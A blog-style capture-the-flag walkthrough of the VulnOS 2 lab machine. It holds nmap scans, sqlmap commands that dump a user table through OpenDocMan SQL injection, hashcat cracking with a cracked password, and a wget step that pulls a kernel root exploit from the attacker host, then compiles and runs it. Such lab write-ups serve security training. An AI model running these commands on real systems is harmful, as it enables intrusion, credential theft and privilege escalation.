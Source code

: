 ```yaml
---
layout: post
title: "vulos2"
date: 2016-07-20 13:36:54 -0500
comments: true
categories: [vulhub]
---
```


###Tools:

* netdiscover
* Nmap
* Wfuzz
* Nikto
* sqlmap
* hash-identifier 
* 

###Vulnerability:
* [OpenDocMan 1.2.7 - Multiple Vulnerabilities](https://www.exploit-db.com/exploits/32075/)
* [Linux Kernel 3.13.0 < 3.19 'overlayfs' Local Root Shell](https://www.exploit-db.com/exploits/37293/)

<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.56.0/24`

{% img  /images/blog/vulhub/vulos2/Selection_001.png   [title manually exploit [alt text]] %}

192.168.56.104 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.79.104 -p-`


{% img  /images/blog/vulhub/vulos2/Selection_002.png   [title manually exploit [alt text]] %}

port 22, 80 and 6667 are opening.

use wfuzz to scan. Nothing interesting.

use Niko to scan. Same.


Check the webpage, looks like a link may be useful.

{% img  /images/blog/vulhub/vulos2/Selection_003.png   [title manually exploit [alt text]] %}

Double click it.

{% img  /images/blog/vulhub/vulos2/Selection_004.png   [title manually exploit [alt text]] %}

Exam the links. In `Document`, I found this:

{% img  /images/blog/vulhub/vulos2/Selection_005.png   [title manually exploit [alt text]] %}

Looks like path `/jabcd0cs/` is available.


go to  `http://192.168.56.104/jabcd0cs/`, I found the app is OpenDocMan v1.2.7. 

{% img  /images/blog/vulhub/vulos2/Selection_006.png   [title manually exploit [alt text]] %}

`searchsploit opendocman`

{% img  /images/blog/vulhub/vulos2/Selection_007.png   [title manually exploit [alt text]] %}

got the exploit. Try the sql injection vulnerability:

{% img  /images/blog/vulhub/vulos2/Selection_008.png   [title manually exploit [alt text]] %}

```
sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --level=5 --risk=3
```

{% img  /images/blog/vulhub/vulos2/Selection_009.png   [title manually exploit [alt text]] %}

Now I know the database type is MySQL.

Next try to dump all table names

```
sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --tables --dbms=mysql
```


{% img  /images/blog/vulhub/vulos2/Selection_010.png   [title manually exploit [alt text]] %}

looks like `odm_user` is the table I want to take a look at.

now dump columns from table `odm_user`


`sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -T odm_user  --columns --dbms=mysql`


{% img  /images/blog/vulhub/vulos2/Selection_011.png   [title manually exploit [alt text]] %}

looks like `username` and `password`

now time to dump all content from `username` and `password`,

`sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -C username,password --dump --dbms=mysql`

{% img  /images/blog/vulhub/vulos2/Selection_012.png   [title manually exploit [alt text]] %}

use hash-identifier to detect hash type

{% img  /images/blog/vulhub/vulos2/Selection_013.png   [title manually exploit [alt text]] %}

looks like they are MD5.

use hashcat to crack it

`hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`

{% img  /images/blog/vulhub/vulos2/Selection_014.png   [title manually exploit [alt text]] %}

only guest's password is cracked.

Find a very good website to crack MD5 online http://md5cracker.org/, get the cracked password `webmin1980` for user webmin, and login:

{% img  /images/blog/vulhub/vulos2/Selection_015.png   [title manually exploit [alt text]] %}

not very helpful.

Try to ssh to the box using webmin

{% img  /images/blog/vulhub/vulos2/Selection_016.png   [title manually exploit [alt text]] %}


get the bash:

`python -c 'import pty; pty.spawn("/bin/bash")'`

first check the os version

`uname -a`

{% img  /images/blog/vulhub/vulos2/Selection_017.png   [title manually exploit [alt text]] %}


`searchsploit 3.13.0`

{% img  /images/blog/vulhub/vulos2/Selection_018.png   [title manually exploit [alt text]] %}

try this exploit

in Kali:

```
cp /usr/share/exploitdb/platforms/linux/local/37292.c /var/www/html/.
service apache2 restart

```

in target:

```
wget http://192.168.56.101/37292.c .
gcc 37292.c -o 37292
./37292
```

{% img  /images/blog/vulhub/vulos2/Selection_018.png   [title manually exploit [alt text]] %}

DONE







